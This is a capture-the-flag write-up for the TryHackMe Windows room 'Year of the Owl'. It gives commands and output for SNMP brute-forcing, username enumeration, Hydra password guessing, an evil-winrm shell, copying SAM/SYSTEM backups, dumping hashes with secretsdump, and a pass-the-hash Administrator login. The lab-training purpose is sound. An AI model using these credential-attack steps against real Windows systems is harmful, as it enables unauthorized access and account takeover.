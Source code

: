 ```yaml
---
categories: [TryHackMe]
tags: [ SNMP, hydra, PrivEsc, Windows, secretsdump, Password Bruteforce, UDP ]
img_path: /assets/images/
image:
  alt: Windows Hard Level Machine 👹
  width: "1200"
  height: "630"
  path: https://tryhackme-images.s3.amazonaws.com/room-icons/37401a7f48999c57c03e7d947541b099.png

---
```


| Machine Link       | [https://tryhackme.com/r/room/yearoftheowl](https://tryhackme.com/r/room/yearoftheowl) |
| ------------------ | -------------------------------------------------------------------------------------- |
| Operating System   | Windows                                                                                |
| Difficulty         | Hard                                                                                   |
| Machine Created by | [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle)                               |

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Year_of_the_owl]
└─$ nmap -sC -sV -T4 -p- -oN Nmap_Results.txt -Pn 10.10.129.128
Nmap scan report for 10.10.129.128
Host is up (0.32s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
|_http-title: Year of the Owl
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, SMBProgNeg, TerminalServerCookie, oracle-tns: 
|_    Host 'ip-10-11-75-200.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-03-18T09:49:15+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=year-of-the-owl
| Not valid before: 2024-03-17T09:41:24
|_Not valid after:  2024-09-16T09:41:24
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```
{: .nolineno}

## Web Enumeration ⤵️

I checked port 80 and 443 both are the same with no directories or files in it .

![Image](Pasted%20image%2020240319102042.png)
_Webpage_

So I looked for UDP ports that are open and found this SNMP port when no TCP ports are in help : 

![Image](Pasted%20image%2020240319140421.png)
_NMAP UDP SNMP port scan_

I then brute-forced the snmp information as a password or you can say community name that will help me extract information from snmp service .

![Image](Pasted%20image%2020240319101640.png)
_SNMP service community name bruteforce_

Then I ran this snmpwalk Tool command to extract the information related to usernames like this 🔻

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Year_of_the_owl]
└─$ snmpwalk -c openview -v1 10.10.74.117 1.3.6.1.4.1.77.1.2.25
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
iso.3.6.1.4.1.77.1.2.25.1.1.6.74.97.114.101.116.104 = STRING: "Jareth"
iso.3.6.1.4.1.77.1.2.25.1.1.13.65.100.109.105.110.105.115.116.114.97.116.111.114 = STRING: "Administrator"
iso.3.6.1.4.1.77.1.2.25.1.1.14.68.101.102.97.117.108.116.65.99.99.111.117.110.116 = STRING: "DefaultAccount"
iso.3.6.1.4.1.77.1.2.25.1.1.18.87.68.65.71.85.116.105.108.105.116.121.65.99.99.111.117.110.116 = STRING: "WDAGUtilityAccount"

```
{: .nolineno}

I then brute-forced the other open services with this <span style="color:#61ffe5">Jareth</span> as username and I used this password list to brute-force the services `/usr/share/wordlists/metasploit/unix_passwords.txt` through <mark style="background: #FF5582A6;">Hydra</mark> Tool.

![Image](Pasted%20image%2020240319101147.png)
_Hydra Tool_

Lets check the other privileges with this credentials 🔽

![Image](Pasted%20image%2020240319101005.png)
_netexec Tool_

### WinRM Session ⤵️

```powershell
┌──(kali㉿kali)-[~/Downloads/Tryhackme]
└─$ evil-winrm -i 10.10.74.117 -u Jareth -p <PASSWORD>                
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Jareth\Documents> cd ..
whoami
*Evil-WinRM* PS C:\Users\Jareth> whoami
year-of-the-owl\jareth
*Evil-WinRM* PS C:\Users\Jareth> tree /f /a
Folder PATH listing
Volume serial number is 7C0C-3814
C:.
+---3D Objects
+---Contacts
+---Desktop
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
*Evil-WinRM* PS C:\Users\Jareth> type Desktop\user.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG}
*Evil-WinRM* PS C:\Users\Jareth> 
```
{: .nolineno}

Due to Antivirus I was not able to run <span style="color:#f04276">winPEAS.exe</span> file but I uploaded <span style="color:#61ffe5">.ps1</span> file of it from [here](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASps1/winPEAS.ps1) .

![Image](Pasted%20image%2020240319113459.png)
_winpeas.exe not executed due to AV_

and ran it and I got this important information as it was colorless output 🔽

![Image](Pasted%20image%2020240319113405.png)
_SAM.bak file found_

I checked this directory and found these files ⏬

```powershell
*Evil-WinRM* PS C:\Users\Jareth\Documents> cd 'C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001\'
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001> dir


    Directory: C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2020   7:28 PM          49152 sam.bak
-a----        9/18/2020   7:28 PM       17457152 system.bak


*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001>
```
{: .nolineno}

After that I copy these 2 files into attackers machine with smb shares like this ⤵️

![Image](Pasted%20image%2020240319114308.png)
_Transfer of files with SMB service_

Now I have sam and system files so lets use <mark style="background: #FFB86CA6;">secretsdump</mark> Tool to extract some information 🔽

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Year_of_the_owl]
└─$ python3 /opt/Tools/secretsdump.py -sam sam.bak -system system.bak LOCAL       
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xd676472afd9cc13ac271e26890b87a8c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662f.....a7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17.....55a:::
[*] Cleaning up... 
```
{: .nolineno}

Lets Pass-the-Hash and get a Administrators shell 🔽

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Year_of_the_owl]
└─$ evil-winrm -i 10.10.160.67 -u Administrator -H 6bc99ede9edcfecf9662f.....a7a
  
Evil-WinRM shell v3.5
 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
tree /f*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is 7C0C-3814
C:.
+---3D Objects
+---Contacts
+---Desktop
|       admin.txt
|
+---Documents
+---Downloads
|       xampp-windows-x64-7.4.10-0-VC15-installer.exe
|
+---Favorites
|   |   Bing.url
|   |
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
*Evil-WinRM* PS C:\Users\Administrator> cat Desktop\admin.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG}
*Evil-WinRM* PS C:\Users\Administrator> 
```
{: .nolineno}

I am Administrator Now !!